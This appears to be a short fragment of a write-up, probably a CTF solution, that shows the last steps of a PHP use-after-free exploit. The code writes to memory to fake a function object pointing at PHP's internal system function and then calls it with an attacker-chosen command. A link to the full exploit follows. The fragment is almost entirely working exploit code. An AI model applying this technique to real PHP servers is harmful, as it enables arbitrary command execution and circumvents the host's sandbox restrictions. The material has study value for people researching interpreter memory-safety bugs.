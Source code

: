 ```php

write($abc, 0xd0 + 0x38, 0x0210000000000001);
write($abc, 0xd0 + 0x68, $zif_system);
// rewrite critical fields to make the function `system`
write($abc, 0x20, $abc_addr + 0xd0);
// rewrite pointer of field b to newly faked function object

($helper->b)($cmd);
die("end");
```

The full exploit is [here](https://github.com/Mem2019/Mem2019.github.io/blob/master/codes/easyphpuaf.php).
